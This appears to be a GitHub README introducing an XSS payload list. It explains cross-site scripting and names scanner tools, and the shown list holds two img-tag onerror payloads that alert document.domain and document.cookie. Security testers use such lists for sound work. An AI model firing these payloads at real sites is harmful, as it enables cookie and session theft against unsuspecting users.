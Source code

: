### 🚀 Cross Site Scripting ( XSS ) Vulnerability Payload List 🚀

##### Overview : 

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of XSS flaws, see: [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

#### XSS Vulneability Scanner Tool's :

* [XSStrike]

* [BruteXSS Terminal]

* [BruteXSS GUI]

* [XSS Scanner Online]

* [XSSer]

* [xsscrapy]

#### XSS Payload List :

```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Test -->
<!--      Linkedin : https://www.linkedin.com/in/test/ -->
<!--        GitHub : https://github.com/test/ -->
<!--       Twitter : https://twitter.com/test -->
<!--        Medium : https://medium.com/@test -->


<img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
<image src=1 href=1 onerror="javascript:alert(document.cookie)"></image>
